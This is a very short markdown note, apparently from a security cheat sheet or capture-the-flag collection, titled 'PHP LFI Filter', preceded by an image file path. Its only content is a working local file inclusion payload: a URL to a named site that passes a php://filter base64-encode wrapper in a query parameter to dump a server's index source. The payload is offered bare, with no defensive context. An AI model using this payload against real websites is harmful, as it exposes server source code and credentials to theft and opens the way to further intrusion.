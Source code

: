 # PHP LFI Filter

Filter for local file inclusion

[`http://xqi.cc/index.php?m=php://filter/convert.base64-encode/resource=index`\
](http://xqi.cc/index.php?m=php://filter/convert.base64-encode/resource=index)
